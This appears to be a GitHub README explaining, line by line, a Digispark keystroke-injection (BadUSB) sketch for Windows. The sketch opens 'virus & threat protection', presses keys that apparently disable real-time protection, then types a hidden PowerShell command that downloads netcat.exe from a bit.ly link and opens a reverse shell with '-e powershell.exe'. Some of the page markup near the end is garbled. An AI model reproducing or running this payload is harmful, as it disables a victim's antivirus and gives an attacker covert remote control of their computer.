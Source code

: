 <code>#include "DigiKeyboard.h"</code> <p>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</p>

<code>void setup(){</code>
<p>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>
<p>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</p>

<code>DigiKeyboard.delay(1000);</code>
<p>Another delay of 1000 milliseconds is introduced.</p>

<code>DigiKeyboard.print("virus & threat protection");</code>
<p>The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</p>

<code>DigiKeyboard.delay(500);</code>
<p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
<p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>DigiKeyboard.delay(5000);</code>
<p>A delay of 5000 milliseconds (5 seconds) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(43);</code>
<p>The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code> <p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code> <p>A delay of 700 milliseconds (0.7 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code> <p>Another Enter key press is simulated.</p>

<code>DigiKeyboard.delay(700);</code> <p>Another delay of 700 milliseconds is introduced.</p>

<code>  DigiKeyboard.sendKeyStroke(KEY_SPACE);</code> <p>The sendKeyStroke() function is used to simulate pressing the Space key.</p>

<code>DigiKeyboard.delay(2000);</code> <p>A delay of 2000 milliseconds (2 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code> <p>The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</p>

<code>DigiKeyboard.delay(1000);</code> <p>A delay of 1000 milliseconds (1 second) is introduced.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code> <p><The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows./p>
  
<code>  DigiKeyboard.delay(500);</code> <p>A delay of 500 milliseconds (0.5 seconds) is added.</p>

<code>DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code> <p>The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</p>

<code>DigiKeyboard.delay(700);</code> <p>A delay of 700 milliseconds (0.7 seconds) is introduced.</p>

<code>  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code> <p>The print() function is used to simulate typing the provided string, which contains a PowerShell command.</p>
  
<code>code></code> <p></p></code> <p>The sendKeyStroke() function is used to simulate pressing the Enter key.</p>

<code>void loop(){}</code>
  <p>This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions</p>




